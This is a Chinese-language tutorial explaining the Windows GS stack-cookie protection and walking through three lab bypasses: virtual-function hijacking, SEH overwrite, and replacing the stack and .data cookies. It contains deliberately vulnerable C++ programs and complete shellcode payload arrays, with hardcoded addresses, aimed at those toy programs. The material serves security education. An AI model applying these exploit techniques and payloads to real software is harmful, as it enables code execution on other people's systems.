



# Windows 下 GS 保护机制详情及其绕过 - 先知社区

Windows 下 GS 保护机制详情及其绕过

- - -

在进入本章学习之前，想象以下我们普通的通过溢出，劫持程序执行流程的过程：我们都是通过超长字符串，溢出变量原有的空间，覆盖到函数的返回地址，以此来完成程序流程的劫持。但是微软的天才工程师也发现了这一点，所以针对栈溢出，做出了一系列保护措施：GS。当然，攻与防总是在进行对抗，天才“黑客”们也研究出了针对这种保护措施的绕过方法。本章我们就来详细学习以下 GS 保护机制以及其绕过方式。

## 一.GS 保护机制概述

站在一个开发者的角度，我们如何防止栈溢出？试想一下，我们在返回地址之前，加入一个数字，这样，当覆盖返回地址之前，这个数字已经被覆盖了，我们来通过这个数字来检测是否发生了栈溢出，是否可行呢？但是这样我们只能检测到返回地址是否被覆盖，如果我们能够检测 EBP 是否被覆盖的话就更好了，这个问题很好解决，我们只需要将这个数字放到 exp 之前就可以了，我们将这个数字称为 canary，在 IDA 中被称为 Security Cookie，我们只需要将栈这样布局就可以完成我们的预想：

| ... | 变量 a |
| --- | --- |
| ... | 变量  |
| ... | 变量  |
| canary | 0xxxxxxxx |
| 0xxxxxxxxx | ebp |
| 0xxxxxxxxx | 返回地址 |

这样，当发生栈溢出的时候，就会首先将 canary 覆盖掉，我们在函数返回的时候检测这个 canary 的值，就可以发现是否发生了溢出。  
当然，如果这个 canary 是固定的，那么溢出的时候，只需要将 canary 位置的值不变就可以了，canary 肯定是要一个随机值啦。==这个方法会在同时替换栈和.data 中的 Cookie 绕过 GS 这里复现一遍==  
但是当函数返回的时候，我们如何来检测这个 canary 呢？这个值是随机的，我们拿哪里的值跟这个值进行比较呢？这里给出微软的天才工程师的方法：

1.  取出.data 节的第一个双字，作为 Cookie 的种子，或称为原始 Cookie
2.  将 Cookie 种子与 esp 异或
3.  将异或后的值存入 canary 的地址
4.  在函数返回之前，进行这个过程的逆过程

这样，canary 就有很强的随机性，通过猜测 canary 的值，基本不可能。但是，这样的话，可以验证返回地址未被覆盖，但是如果程序中其他变量被覆盖，也有可能造成程序进入其他流程，所以 GS 还对变量做了变量重排技术：

|     |     |
| --- | --- |
| ...... | Buff |
| ...... | ... |
| ...... | Char |
| ...... | Int |

比如这种情况：Buff 是字符串类型，我们可以在这里造成溢出，会覆盖掉其他变量，进行变量重排之后的堆栈：

|     |     |
| --- | --- |
| ...... | Char |
| ...... | Int |
| ...... | Buff |
| ...... | ... |
| ...... | Canary |
| ...... | EBP |
| ...... | 返回地址 |

这样就有效防止了覆盖其他变量。  
\==由此看来，GS 真是一种精妙的防止栈溢出的保护机制！！！==

## 二。不会启用 GS 的情况

就像我们前面讲的，增加的计算和验证 canary 的过程，以及存储 canary 的空间，必然会造成系统性能的下降，于是，编译器在编译程序的时候，采取了一种折中的做法，以下情况不会启用 GS：

1.  函数不包含缓冲区
2.  函数被定义为具有变量参数列表
3.  函数使用无保护关键字标记
4.  函数在第一个语句中包含内嵌汇编代码
5.  缓冲区不是 8 字节类型并且不大于 4 字节

另外，我们可以为函数强制启用 GS：  
`#pragma strict_gs_check(on)`，这样可以为下边的函数强制启用 GS。

## 三.GS 的绕过方式

## 1.攻击未启用 GS 的函数

我们前面讲过了，有一些情况，编译器是不会为函数启用 GS 的，我们可以去攻击那些函数。  
\==由于这种溢出较简单，这里不再做赘述。==

## 2.覆盖虚函数绕过 GS

我们前面讲过了，只有在函数返回的时候，才回去检查 Canary，那么我们在检查 Canary 之前，就劫持流程，这样就不会被发现了，而 C++ 的虚函数，恰好为我们提供了这样一个机会：  
*环境配置：*（文章后面的所有实验都是这样）  
\==在 C/C++ 目录下，常规属性里关掉 SDL 检查，在代码生成里面将基本运行时检查设置为默认值，运行库修改为 MTD，禁用 Spectre 缓解（如果安装了驱动开发的话），在所有选项里，关掉控制流防护。  
在 C/C++ 目录下，常规属性里关掉 SDL 检查，在代码生成里面将基本运行时检查设置为默认值，运行库修改为 MTD，紧用安全检查（/GS-），禁用 Spectre 缓解，在所有选项里，关掉控制流防护。==

```bash
#include <stdio.h>
#include <Windows.h>

class GSVirtual {
public:
    void gsv(char * src)
    {
        char buf[200];
        memcpy(buf, src, 204);
        MyFunc();
    }
    virtual void  MyFunc()
    {
    }
};

int main()
{
    GSVirtual test;
    HANDLE hFile = CreateFileA("C:\\Users\\lenovo\\Desktop\\漏洞原理\\GS\\Debug\\111.txt",
        GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("打开文件失败！！！\n");
    }
    char szBuffer[MAX_PATH]{ 0 };
    DWORD dwReadSize = 0;
    ReadFile(hFile, szBuffer, 250, &dwReadSize, NULL);
    test.gsv(szBuffer);
    return 0;
}
```

我们来看看这个程序：虚函数 gsv 中存在明显的溢出漏洞，通过溢出，我们可以将虚函数表覆盖掉，然后执行我们想要的流程。  
我们知道，超过 200 字节之后，就可以覆盖掉其他参数，我们通过 x64dbg 来看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121320-0c9361ae-ce14-1.png)

注意这里我给文本文件中写入了 195 个字节，加上\\x00，就是 196 字节  
我们再来看看程序调用虚函数的过程：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121331-133d389a-ce14-1.png)

可以看到，这里的`ebp-8`就是函数中，指向 test 对象的指针，也就是 this 指针，获取虚函数指针的步骤为：

1.  取出`ebp-8`的值（this），放入`eax`
2.  从`eax`(this) 中，取出前 4 个字节，为虚表指针，放入`edx`
3.  从虚函数表中`edx`获取前 4 个字节，这 4 个字节就是虚函数`MyFunc`的地址了，放入 eax
4.  `call eax`完成虚函数调用

现在我们要通过溢出，来劫持虚函数，也就是说（对照前面获取虚函数指针的步骤）：

1.  取出`ebp-8`的值，这里存储着我们的==参数的地址==，被当作 this 指针，放入`eax`
2.  从`eax`）中取出 4 字节（实际上指向我们的原始参数），被当作虚函数表，放入`edx`
3.  从`edx`（也就是我们参数的前四个字节），被当作虚函数指针放入`eax`
4.  `call eax`完成调用

现在我们要做的，就是把我们的参数的前四个字节（被当作虚函数执行），改为我们想要执行的地址，然后使用参数覆盖掉`ebp-8`（覆盖为我们原始参数）。  
既然是 call 我们的参数的前 4 个字节，那我们直接将参数前四个字节设置为我们的参数，这样就能够直接 call 我们的 shallcode:

```bash
unsigned char hexData[204] = {
    0xBD, 0xFC, 0x19, 0x00, 0x90, 0x90, 0x90, 0x90,
    0xFC, 0x68, 0x6A, 0x0A, 0x38, 0x1E, 0x68, 0x63,
    0x89, 0xD1, 0x4F, 0x68, 0x32, 0x74, 0x91, 0x0C,
    0x8B, 0xF4, 0x8D, 0x7E, 0xF4, 0x33, 0xDB, 0xB7,
    0x04, 0x2B, 0xE3, 0x66, 0xBB, 0x33, 0x32, 0x53,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0x33, 0xD2,
    0x64, 0x8B, 0x5A, 0x30, 0x8B, 0x4B, 0x0C, 0x8B,
    0x49, 0x1C, 0x8B, 0x09, 0x8B, 0x69, 0x08, 0xAD,
    0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75, 0x05, 0x95,
    0xFF, 0x57, 0xF8, 0x95, 0x60, 0x8B, 0x45, 0x3C,
    0x8B, 0x4C, 0x05, 0x78, 0x03, 0xCD, 0x8B, 0x59,
    0x20, 0x03, 0xDD, 0x33, 0xFF, 0x47, 0x8B, 0x34,
    0xBB, 0x03, 0xF5, 0x99, 0x0F, 0xBE, 0x06, 0x3A,
    0xC4, 0x74, 0x08, 0xC1, 0xCA, 0x07, 0x03, 0xD0,
    0x46, 0xEB, 0xF1, 0x3B, 0x54, 0x24, 0x1C, 0x75,
    0xE4, 0x8B, 0x59, 0x24, 0x03, 0xDD, 0x66, 0x8B,
    0x3C, 0x7B, 0x8B, 0x59, 0x1C, 0x03, 0xDD, 0x03,
    0x2C, 0xBB, 0x95, 0x5F, 0xAB, 0x57, 0x61, 0x3D,
    0x6A, 0x0A, 0x38, 0x1E, 0x75, 0xA9, 0x33, 0xDB,
    0x53, 0x68, 0x77, 0x65, 0x73, 0x74, 0x68, 0x66,
    0x61, 0x69, 0x6C, 0x8B, 0xC4, 0x53, 0x50, 0x50,
    0x53, 0xFF, 0x57, 0xFC, 0x53, 0xFF, 0x57, 0xF8,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0xFD, 0x19, 0x00 
};
```

我们将文本文件设置为这样，即可完成攻击。  
\==解释：==  
最后的 0x0019FD90 是函数 gsv 的原始参数，覆盖到函数的虚函数表地址，即可让程序将我们的 shellcode 解析为虚函数表，然后取前四个字节（0x19FCBD）去执行，0x19FCDB 指向我们 shellcode 的第 2 个 0x90，这样即可完成攻击。

## 3.攻击异常处理绕过 GS

GS 是提供了一些保护，但是经过前面的介绍，相信大家还是能发现许多问题：比如，没有对 SEH 做保护，那我们就可以来攻击程序的异常处理了：  
我们来看看这个程序：

```bash
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

char szBuffer[] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90,0x90, 0x90, 0x90, 0x90,
    0xD0, 0xFD, 0x19, 0x00
};


void test(char* szBuffer) {
    char buf[200]{ 0 };
    strcpy(buf, szBuffer);
    strcat(buf, szBuffer);
}

int main()
{
    test(szBuffer);
    return 0;
}
```

我们来分析这个程序：从 111.txt 读取数据，传入 test 函数，但是 test 函数中，strcpy 函数存在明显的栈溢出，我们来通过调试器看一下：  
test 函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121345-1ba5e432-ce14-1.png)

可以看到该函数启用了 GS，很明显，我们这里没有办法去攻击虚函数，这里有 GS 保护，我们也没有办法去攻击返回地址，但是我们来看看异常处理地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121351-1f61a07a-ce14-1.png)

可以看到这里距离我们 buf 最近的异常处理位于 0x0019FF54 位置，那我们是否可以通过超长字符串，来攻击异常处理？  
答案是可以的，我们通过超长字符串，在 strcpy 之后，test 函数的 szBuffer 参数被覆盖，造成异常地址，这样就会调用我们的异常处理了，那我们来写一下 payload：  
异常处理地址（0x19FF54 + 4）相对于我们的 buf 首地址（0x19FDD0）需要 392 字节，所以我们要在 388 ~ 392 位置写上我们要执行的地址：

```bash
unsigned char hexData[392] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90,0x90, 0x90, 0x90, 0x90,
     0xD0, 0xFD, 0x19, 0x00 
};
```

可以看到我们的异常处理指针已经被我们成功覆盖：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121400-24b4950a-ce14-1.png)

这样我们就成功绕过了 GS，成功执行了 shellcode。

## 4.同时替换栈和.data 中的 Cookie 绕过 GS

我们知道在函数返回，检测 Canary 的时候，是通过.data 中的值和 Cookie 的值完成的，那我们可不可以将这两个值同时替换掉，满足要求，这样骗过检测，是否就可以完成栈溢出了呢？答案是可以的。  
*环境配置：*  
\==在 C/C++ 目录下，常规属性里关掉 SDL 检查，在代码生成里面将基本运行时检查设置为默认值，运行库修改为 MTD，禁用 Spectre 缓解（如果安装了驱动开发的话），在所有选项里，关掉控制流防护。  
在 C/C++ 目录下，常规属性里关掉 SDL 检查，在代码生成里面将基本运行时检查设置为默认值，运行库修改为 MTD，紧用安全检查（/GS-），禁用 Spectre 缓解，在所有选项里，关掉控制流防护。==

```bash
#include <stdio.h>
#include <Windows.h>

void test(char* s, int i, char* src) {
    char dest[200]{ 0 };
    if (i < 0x9995) {
        char* buf = s + i;
        *buf = *src;
        *(buf + 1) = *(src + 1);
        *(buf + 2) = *(src + 2);
        *(buf + 3) = *(src + 3);
        memcpy(dest, (char*)(src + 8), 212);
    }
}

int main()
{
    HANDLE hFile = CreateFileA("C:\\Users\\lenovo\\Desktop\\漏洞原理\\GS\\Debug\\111.txt",
        GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("打开文件失败！！！\n");
    }
    char szBuffer[MAX_PATH]{ 0 };
    DWORD dwReadSize = 0;
    ReadFile(hFile, szBuffer, 250, &dwReadSize, NULL);
    char* str = (char*)malloc(0x10000);
    test(str, *((int*)(szBuffer+4)), szBuffer);
    return 0;
}
```

我们来观察这个程序，test 函数存在明显的栈溢出，由于对 i 的值只进行了上限检查，所以当 i 为负值时，可以写任意低地址的值，而我们的 payload，0 ~ 4 字节用于修改.data 中的值，4~8 字节用于指向.data，后面的就是真正的 shellcode 了。  
这里我们的利用思路就是：payload 的 4 ~ 8 字节指向.data 去修改为 0 ~ 4 字节的值，然后返回地址覆盖为我们的 payload 的第 9 个字节的地址，去执行 shellcode。  
我们先将 payload 设置为 112 个\\x90 来观察以下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121415-2d579ae0-ce14-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121423-323648f4-ce14-1.png)

可以看到，这里是从.data 段取前四个字节（地址：0x0050C004），作为 Security Cookie 的种子，然后与 ebp（值为 0x0019FD80）进行异或，存储在`ebp - 4`的位置。  
现在我们要做的是：找到我们申请的堆地址，然后计算出堆的地址与`0x0050C004`的偏移，放到 payload 的 4 ~ 8 的位置，然后 ebp(0x0019FD80) 与 0x90909090 异或，放到 payload 0 ~ 4 的位置，用于修改 Security Cookie 种子。  
这里为什么是 ebp 与 0x90909090 异或呢？因为在 Canary 检查的时候，是计算 Canary 的逆过程：取出 Canary，与 ebp 异或，与 Security Cookie 种子进行比较，而我们栈溢出的时候，将 Canary 覆盖成了 0x90909090，我们可以看看 Canary 检查的过程：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121432-37e435d6-ce14-1.png)

这里的 gs.44BBDA 函数（Canary 检查函数）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121439-3ba94832-ce14-1.png)

好了，现在我们要做的大致思路我们就知道了，现在我们来实行：

### 攻击过程演示：

1.  首先，我们来看看我们申请的堆首地址：  
    因为堆地址是 test 函数的第一个参数，所以应该处于`ebp + 8`的位置：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218121446-3fcf8b24-ce14-1.png)

堆地址：0x0069BEB0，Security Cookie 种子的地址：0x0050C004，从堆地址到 Security Cookie 种子的偏移：`0x0050C004 - 0x0069BEB0 = 0xFFE7 0154`我们将这个值放到 payload 的 4 ~ 8 的位置，然后`0x90909090 ^ 0x0019FD80 = 0x9089 6D10`，我们将这个值放到 paylaod 的 0 ~ 4 的位置，然后放上我们的 shellcode。  
payload:

```bash
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : C:\Users\lenovo\Desktop\漏洞原理\GS\Debug\111.txt
// Address : 0 (0x0)
// Size    : 212 (0xD4)
//------------------------------------------------------------
unsigned char hexData[212] = {
    0x10, 0x6D, 0x89, 0x90, 0x54, 0x01, 0xE7, 0xFF,
    0xFC, 0x68, 0x6A, 0x0A, 0x38, 0x1E, 0x68, 0x63,
    0x89, 0xD1, 0x4F, 0x68, 0x32, 0x74, 0x91, 0x0C,
    0x8B, 0xF4, 0x8D, 0x7E, 0xF4, 0x33, 0xDB, 0xB7,
    0x04, 0x2B, 0xE3, 0x66, 0xBB, 0x33, 0x32, 0x53,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0x33, 0xD2,
    0x64, 0x8B, 0x5A, 0x30, 0x8B, 0x4B, 0x0C, 0x8B,
    0x49, 0x1C, 0x8B, 0x09, 0x8B, 0x69, 0x08, 0xAD,
    0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75, 0x05, 0x95,
    0xFF, 0x57, 0xF8, 0x95, 0x60, 0x8B, 0x45, 0x3C,
    0x8B, 0x4C, 0x05, 0x78, 0x03, 0xCD, 0x8B, 0x59,
    0x20, 0x03, 0xDD, 0x33, 0xFF, 0x47, 0x8B, 0x34,
    0xBB, 0x03, 0xF5, 0x99, 0x0F, 0xBE, 0x06, 0x3A,
    0xC4, 0x74, 0x08, 0xC1, 0xCA, 0x07, 0x03, 0xD0,
    0x46, 0xEB, 0xF1, 0x3B, 0x54, 0x24, 0x1C, 0x75,
    0xE4, 0x8B, 0x59, 0x24, 0x03, 0xDD, 0x66, 0x8B,
    0x3C, 0x7B, 0x8B, 0x59, 0x1C, 0x03, 0xDD, 0x03,
    0x2C, 0xBB, 0x95, 0x5F, 0xAB, 0x57, 0x61, 0x3D,
    0x6A, 0x0A, 0x38, 0x1E, 0x75, 0xA9, 0x33, 0xDB,
    0x53, 0x68, 0x77, 0x65, 0x73, 0x74, 0x68, 0x66,
    0x61, 0x69, 0x6C, 0x8B, 0xC4, 0x53, 0x50, 0x50,
    0x53, 0xFF, 0x57, 0xFC, 0x53, 0xFF, 0x57, 0xF8,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xBC, 0xFC, 0x19, 0x00 
};
```

相信大家在实验的时候发现了一个问题吧？就是堆的起始地址并不是固定的！！！所以我们要手动修改以下`ebp - 8`的位置，用来修改 Security Cookie 种子！！！具体的通用的 ROP 方法我现在还是不太会，但是我会继续努力学习通用的 ROP 方法。  
如果发现文章中有错误，还请大家指正，我会非常虚心地学习。最后希望大家共同进步！！！
